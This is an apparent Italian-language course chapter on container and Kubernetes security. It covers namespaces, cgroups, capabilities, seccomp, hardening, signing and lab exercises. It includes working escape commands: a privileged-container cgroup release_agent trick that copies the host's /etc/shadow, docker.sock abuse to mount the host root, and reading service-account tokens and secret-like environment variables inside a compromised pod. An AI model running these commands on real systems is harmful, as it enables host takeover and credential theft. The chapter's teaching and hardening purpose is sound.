

# Container e Kubernetes

> Container ≠ VM. È un processo Linux con namespaces e cgroups. Capirlo è la differenza tra "sembra sicuro" e "lo è davvero".

## Docker e container internals

> Capire un container come "VM leggera" è sbagliato. È **un processo Linux normale** con dei "mascheramenti" applicati. Lo dimostro.

### 1. Namespaces — l'isolamento per il processo

Un namespace dice al kernel "questo processo vede solo questo sottoinsieme di risorse globali". 8 tipi:

| Namespace | Cosa nasconde | Lo provi così |
|---|---|---|
| **mnt** | mount table privata | `unshare -m bash` → mount, vedi solo i tuoi |
| **pid** | PID space proprio (PID 1 = il container init) | `unshare --fork --pid --mount-proc bash; ps` |
| **net** | interfacce, routing, iptables, /proc/net | `ip netns add foo; ip netns exec foo ip a` (solo lo) |
| **ipc** | IPC, semafori, message queue, shared memory | `ipcs` mostra solo i propri |
| **uts** | hostname e domainname | `unshare -u bash; hostname pippo` non cambia host |
| **user** | mapping UID/GID (root nel container ≠ root host) | `unshare -U bash; id` → nobody |
| **cgroup** | vista del cgroup root | `cat /proc/self/cgroup` mostra path "fittizio" |
| **time** | clock offset | recente (5.6+) |

**Esperimento concreto** (su Linux):
```bash
# In un container Docker:
docker run --rm -it alpine sh
# Dentro:
ps aux           # vedi solo i processi del container
ls /proc         # i PID sono rimappati da pid namespace
mount            # mount table propria
ip a             # interfacce private
echo $$          # PID 1 (il PID 1 NEL container)

# Da fuori (host):
ps aux | grep <comando del container>
# Vedi lo STESSO processo con PID host diverso (es. 24531)
```

Lo stesso processo ha **due PID**: uno nel namespace (PID 1) e uno nel namespace host (24531). È la **stessa entità kernel** vista da due "lenti" diverse.

**Sicurezza:** un container con **`--pid host`** condivide il PID namespace dell'host → vede tutti i processi host → può `kill` ovunque. Lo stesso vale per `--net host` (sniffer su rete host), `--ipc host`, ecc. **Tutti questi flag aprono escape.**

### 2. cgroups — i limiti di risorse

Cgroup v2 (kernel 4.5+, unificato) è un albero in `/sys/fs/cgroup/`:

```
/sys/fs/cgroup/
├── memory.max              ← limite RAM
├── cpu.max                 ← limite CPU (quota/period)
├── io.max                  ← I/O bandwidth
├── pids.max                ← max processi
└── system.slice/
    └── docker-abc.scope/
        ├── memory.max  =  536870912    ← 512 MB
        ├── memory.current = 102400000
        └── cgroup.procs    ← lista PID nel cgroup
```

Aggiungi un processo al cgroup → kernel applica i limiti. Se supera, riceve **SIGKILL** (`memory.oom.kill`) o viene **throttled** (CPU).

**Sicurezza:** senza cgroup, un container può fare `fork bomb` o `dd if=/dev/zero of=/tmp/big bs=1G count=100` e affamare l'host. Docker imposta default conservativi; ma `--memory unlimited` torna a essere un problema.

### 3. Capabilities — frazioni di "root"

Storicamente "root" = onnipotenza. Linux 2.2+ ha 41 **capability** discrete. Esempi:

| Cap | Permette | Container default? |
|---|---|---|
| `CAP_NET_ADMIN` | configurare rete, iptables, raw socket | ❌ |
| `CAP_SYS_ADMIN` | quasi tutto (mount, namespace, ...) | ❌ — pericoloso |
| `CAP_SYS_PTRACE` | ptrace su altri processi | ❌ |
| `CAP_NET_BIND_SERVICE` | bind porte < 1024 | ✅ |
| `CAP_CHOWN` | chown senza essere owner | ✅ |
| `CAP_DAC_OVERRIDE` | bypass dei permessi DAC | ✅ |

Docker di default dà 14 cap, droppa 27. **`--privileged` = tutte le 41 → root vero su host = escape banale.**

Vedi le cap del processo corrente:
```bash
grep Cap /proc/self/status
capsh --print
getpcaps $$
```

### 4. Seccomp — il filtro syscall

Docker default carica un **seccomp profile** (`default.json`) che blocca ~50 syscall pericolose (es. `mount`, `umount`, `pivot_root`, `kexec_load`, `keyctl`, ...).

Modalità:
- `SECCOMP_MODE_STRICT`: solo `read`, `write`, `exit`, `sigreturn` (sandbox estremo).
- `SECCOMP_MODE_FILTER`: programma BPF decide per ogni syscall (allow / deny / errno / trap).

**`--security-opt seccomp=unconfined`** disabilita il filtro → riapre tutte le syscall → preludio a escape.

### 5. LSM (AppArmor / SELinux) — MAC

Strato in più: AppArmor (Ubuntu/Debian) o SELinux (RHEL) impone politiche **a livello kernel** che neanche root container può violare. Esempi:
- container non può scrivere su `/proc/*/attr/`.
- container non può `ptrace` certi pid.
- container ha labels SELinux che limitano accesso a file con labels diverse.

**`--security-opt apparmor=unconfined`** → niente AppArmor → un pezzo di muro in meno.

### 6. Layered filesystem (overlay2)

Un'immagine Docker è una **catena di layer read-only** (es. `ubuntu:22.04` ha 3 layer base, ognuno è un tar di un diff). Quando lanci un container, viene aggiunto un **layer scrivibile** in cima via OverlayFS:

```
upperdir (rw, container)   ← qui finisce ogni modifica
+---------------------------+
| layer N (image RO)        |
| layer N-1 (image RO)      |
| ...                       |
| layer 0 (base ubuntu)     |
+---------------------------+
```

Vedi mount overlay con `mount | grep overlay`. Quando il container viene cancellato → upperdir cancellato → modifiche perse (a meno di volume).

### Sintesi: cosa rende un container "isolato"

```mermaid
flowchart TB
    P[Processo container] --> NS[Namespaces<br/>mnt · pid · net · ipc · uts · user · cgroup · time]
    P --> CG[cgroups<br/>limiti CPU/RAM/IO/pids]
    P --> CAP[Capabilities<br/>subset di root]
    P --> SEC[seccomp<br/>~50 syscall bloccate]
    P --> LSM[LSM<br/>AppArmor / SELinux]
    P --> FS[OverlayFS<br/>layer RO + upper RW]
    NS --> K[Kernel Linux<br/>condiviso con host!]
    CG --> K
    CAP --> K
    SEC --> K
    LSM --> K
    FS --> K
    style K fill:#3a0b0b,stroke:#ff4d4d
```



**Il kernel è condiviso.** Un exploit kernel (DirtyPipe, DirtyCow, OverlayFS race) eseguito da container = root host. Per questo `gVisor` (sandbox Google con user-mode kernel) e `Kata Containers` (microVM per container) esistono: trasformano il container in una "VM leggera" per evitare la kernel sharing.

### Comandi che vivrai
```bash
docker run --rm -it ubuntu:latest bash
docker ps
docker images
docker exec -it <id> bash
docker logs <id>
docker inspect <id>          # tonnellate di config
docker network ls
docker volume ls
docker save img -o img.tar    # esporta image
docker save img | tar -xv     # ispeziona layers
```

Ispezione manuale di un'immagine:
```bash
docker save myimg | tar -x -C myimg-dir
cd myimg-dir
ls                            # manifest.json, layer.tar per ognuno
tar -tvf layer.tar | head     # contenuto di un layer
```

## Vulnerabilità comuni nei container

### Image misconfig
- **Run as root** (default). Aggiungi `USER 1000` non root.
- **No verification**: image pull senza signing. `:latest` cambia.
- **CVE in immagine**: image vecchia con base OS unpatched.
- **Secrets in env** o in `Dockerfile` (`ENV API_KEY=...`).
- **Tools inutili**: shell + curl + wget rendono post-exploit più facile. **Distroless** o **scratch** + static binary = minimal attack surface.
- **`.dockerignore` mancante** → secrets nella build context.
- **Cache poisoning** in CI/CD.

Scan: **Trivy**, **Grype**, **Snyk Container**, **Docker Scout**, **Anchore**.

```bash
trivy image alpine:3.18
trivy image --severity HIGH,CRITICAL myimg:1.0
trivy config Dockerfile
```

### Runtime misconfig
- `--privileged` — il container è host-effective root.
- `-v /:/host` — mount root host in container.
- `--cap-add SYS_ADMIN` o `ALL` — capability totale.
- `--net host` — niente network namespace.
- `--pid host` — vede tutti i processi host.
- `--ipc host`.
- `/var/run/docker.sock` montato → l'attaccante chiama docker daemon → crea container `--privileged` → escape immediato.

```bash
docker run -v /var/run/docker.sock:/var/run/docker.sock alpine
apk add docker; docker run -v /:/host --privileged alpine chroot /host bash
```

### Container escape — vie tipiche

1. **Privileged container** + mount cgroup → `release_agent` trick (CVE-pre-2022).
2. **CAP_SYS_ADMIN** → mount, ptrace, abuse.
3. **Docker socket exposed**.
4. **runc CVE-2019-5736** — sovrascrivere il binario runc dal container.
5. **runc CVE-2024-21626** ("Leaky Vessels") — fd leak permette escape via `WORKDIR`.
6. **CRI-O / containerd** CVE storiche.
7. **Kernel exploit** — kernel è condiviso col host; LPE kernel = host root.
8. **Misuse di `/proc/self/exe`** abuse.
9. **/proc** mount completo (non `/proc` mascherato che default).

Tool: **CDK** (chinese container exploit kit), **deepce** (Container Enumeration), **botb**.

## Kubernetes — arrivare al punto

### Architettura



### Oggetti chiave
- **Pod**: 1+ container co-located.
- **Deployment**: gestisce repliche di pod.
- **Service**: ABI di rete (ClusterIP, NodePort, LoadBalancer).
- **Ingress**: HTTP routing.
- **ConfigMap / Secret**: dati di config / segreti (Secret è solo base64, **non cifrato** by default! attiva etcd encryption).
- **Namespace**: separation logica.
- **ServiceAccount**: identità per pod → token JWT montato in `/var/run/secrets/kubernetes.io/serviceaccount/token`.
- **Role / RoleBinding / ClusterRole / ClusterRoleBinding**: RBAC.
- **NetworkPolicy**: firewall L3/L4 per pod (richiede CNI che supporta — Calico, Cilium).

### Attack surface Kubernetes

1. **API server esposto** (NodePort, LoadBalancer pubblico) senza auth strong.
2. **Dashboard senza auth** (storico, ancora si trova).
3. **kubelet API** (porta 10250) esposta → `/exec` su pod arbitrari.
4. **etcd** esposto (porta 2379) → tutti i Secret in chiaro (base64).
5. **Service Account con privilegi eccessivi** in pod compromesso → `kubectl ... -n kube-system` da dentro.
6. **Privileged pod** → escape al node.
7. **Container image registry** con auth weak.
8. **Helm chart** con default creds.
9. **Workload identity** → cloud IAM escalation (es. pod con accesso a Workload Identity in GKE = GCP role).

### Recon dentro un pod compromesso
```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default/api/v1/namespaces
kubectl auth can-i --list                       # se kubectl c'è
kubectl auth can-i create pods --all-namespaces

# Cerca env "interessanti"
env | grep -iE "key|secret|token|password"
# Mounts
mount
# Capabilities
capsh --print
# Privileged?
ls /dev | head                                  # se vedi sda1 -> probabilmente privileged
```

### Tool offensivi K8s
- **kube-hunter** (penetration tester).
- **botb** (container) + **CDK**.
- **peirates**.
- **DeepCE**.
- **kdigger** (recon comprehensive).

### Tool difensivi / hardening
- **kube-bench** (CIS Benchmark check).
- **kubescape** (config + RBAC + supply chain).
- **kubeaudit** (security audit).
- **Polaris**.
- **Falco** (runtime detection).
- **Tetragon** (eBPF based).
- **OPA Gatekeeper / Kyverno** (admission control policy as code).

### Esempio di policy Kyverno
```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-privileged
spec:
  validationFailureAction: enforce
  rules:
    - name: privileged-not-allowed
      match: { resources: { kinds: [Pod] } }
      validate:
        message: "Privileged container not allowed"
        pattern:
          spec:
            containers:
              - =(securityContext):
                  =(privileged): "false"
```

## Supply chain di container

### Image signing
- **Cosign** (sigstore) — keyless signing con OIDC, transparency log Rekor.
- **Notation** (Notary v2) — alternative.

```bash
cosign sign --key cosign.key myimg:1.0
cosign verify --key cosign.pub myimg:1.0
```

In K8s: admission policy che blocca image non firmate.

### SBOM
Software Bill of Materials per immagini: **Syft** genera SBOM, **Grype** scanna per CVE.

```bash
syft myimg:1.0 -o spdx-json > sbom.json
grype sbom:sbom.json
```

### Reproducible builds, in-toto attestation
Cosign supporta attestation: "questo image è stato buildato da quella pipeline su quel commit". Verifica in admission.

## Kubernetes hardening checklist breve

- [ ] etcd encryption at-rest abilitato.
- [ ] RBAC enabled (default), policy least privilege.
- [ ] PodSecurityStandards (PSS) "restricted" su namespace prod.
- [ ] NetworkPolicy default deny + allow esplicito.
- [ ] Admission control con Kyverno/OPA.
- [ ] Image signing required.
- [ ] No privileged pods senza eccezione documentata.
- [ ] ServiceAccount least-privilege, no auto-mount token se non necessario.
- [ ] Runtime detection (Falco/Tetragon).
- [ ] Audit log on, esportato a SIEM.
- [ ] Workload identity invece di key statiche per cloud.
- [ ] Aggiornamenti: kube-apiserver/controller/scheduler/kubelet patchati.

## Esercizi

### Esercizio 19.1 — Docker escape "easy"
In una VM, esegui:
```bash
docker run --rm -it --privileged ubuntu bash
# dentro
mount -t cgroup -o rdma cgroup /mnt/cg
echo '#!/bin/sh' > /tmp/x
echo 'cat /etc/shadow > /tmp/host-shadow' >> /tmp/x
chmod +x /tmp/x
echo "$(realpath /tmp/x)" > /mnt/cg/release_agent
echo 1 > /sys/fs/cgroup/notify_on_release
echo a > /mnt/cg/cgroup.procs   # trigger
cat /tmp/host-shadow
```

Spiega cosa fa. Quale flag mitiga (`--cap-drop ALL --security-opt no-new-privileges`)?

### Esercizio 19.2 — Docker socket abuse
Esegui un container montando `/var/run/docker.sock`. Dentro: `docker run -v /:/h --privileged alpine chroot /h sh`. Spiega.

### Esercizio 19.3 — Setup K8s lab
**kind** (Kubernetes in Docker) o **minikube**. Crea cluster locale. Lancia pod con security context "loose":
```yaml
securityContext:
  privileged: true
  capabilities: { add: ["SYS_ADMIN"] }
```

Dentro il pod, prova escape al node host.

### Esercizio 19.4 — kube-hunter
```bash
kube-hunter --remote 10.0.0.10
kube-hunter --cidr 10.0.0.0/24 --active
```

Quali find?

### Esercizio 19.5 — RBAC privesc
Setup un ServiceAccount con `create` su `pods` ma niente altro. Da pod con quel SA, esegui un pod che monta `/` host → escape. Mitigation: PodSecurityStandards.

### Esercizio 19.6 — Image scan
Costruisci un'immagine con base `node:14` (vecchia, vuln). Scanna:
```bash
trivy image myapp:1.0
grype myapp:1.0
```

Quante CVE?

### Esercizio 19.7 — Falco runtime
Installa Falco nel cluster. Esegui in un pod: `apt update`. Falco dovrebbe alertare ("Package management process launched in a container"). Studia altre default rule.

### Esercizio 19.8 — Sigstore / Cosign
Genera coppia chiavi:
```bash
cosign generate-key-pair
cosign sign --key cosign.key registry/myimg:1.0
cosign verify --key cosign.pub registry/myimg:1.0
```

Aggiungi Kyverno policy che richiede signature → deploy di image unsigned è bloccato.

### Esercizio 19.9 — CTF
- **Kubernetes Goat** (Madhu Akula): https://madhuakula.com/kubernetes-goat/ — scenari vulnerabili guidati.
- **TryHackMe**: "**Cloud K8s**" room.
- **WrongSecrets** (multi-arch challenge): https://github.com/OWASP/wrongsecrets.

## Concetti chiave

1. **Container ≠ VM**: è un processo isolato. Escape è kernel exploit o config misuse.
2. **`--privileged` o docker.sock = escape facile**.
3. **K8s RBAC** è il piano di sicurezza, va minimo.
4. **ServiceAccount token in pod** = chiave del regno se i privilegi sono troppi.
5. **Admission control + PSS + NetworkPolicy** = baseline.
6. **Supply chain (image signing, SBOM)** non è opzionale nel 2026.
7. **Runtime detection (Falco/Tetragon)** vale come ETD per K8s.

Avanti: il mondo wireless e radio.
